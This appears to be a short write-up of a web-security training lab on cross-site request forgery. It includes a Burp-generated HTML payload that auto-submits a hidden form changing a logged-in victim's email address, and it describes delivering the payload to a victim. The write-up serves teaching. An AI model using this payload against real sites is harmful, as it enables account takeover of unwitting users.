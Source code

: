 # Lab: CSRF vulnerability with no defenses

Login with the provided creds and initiate an email address change. From the resulting POST request, right click and select Engagement Tools > Generate CSRF PoC

Copy the generated html and modify it to remove the submit button, and add a script block to submit the change:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac7c1f3c1f55fa33c04822f800cc008a.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="evil&#64;pwned&#46;com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

Go to the exploit server and store the payload, then deliver it to the victim to solve the lab. When the victim visits the exploit link, a POST request is initiated with the email change parameters on the target website. The victim's browser automatically uses the user's cookie, so the attack results in the website accepting the change.